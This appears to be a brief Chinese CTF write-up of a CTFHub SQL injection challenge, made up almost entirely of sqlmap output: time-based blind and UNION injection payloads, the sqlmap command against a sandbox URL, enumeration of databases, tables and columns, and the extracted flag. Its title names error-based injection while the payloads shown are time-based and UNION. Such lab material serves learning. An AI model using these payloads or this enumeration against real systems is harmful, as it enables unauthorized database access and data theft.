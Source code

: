```yaml
---
title: 报错型sql注入
date: 2024-11-15T20:06:19Z
lastmod: 2024-11-15T20:11:13Z
---
```


# 报错型sql注入

```shell
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6031 FROM (SELECT(SLEEP(5)))HxQg) AND 'TYVz'='TYVz

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-6758' UNION ALL SELECT NULL,CONCAT(0x71716b6271,0x6b4f427268554c41585a6c62706e70755161624c684e6b574950737365477945575762454c567758,0x71627a6a71)-- -
---
```

```shell
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

```

​`sqlmap -u "http://challenge-68616053fb31adea.sandbox.ctfhub.com:10800/?id=1"  `​

‍

```shell
Database: sqli
[2 tables]
+------+
| flag |
| news |
+------+
```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+
```

```shell
Database: sqli
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{d6d7550c0c1cf1fc939bb395} |
+----------------------------------+
```

‍
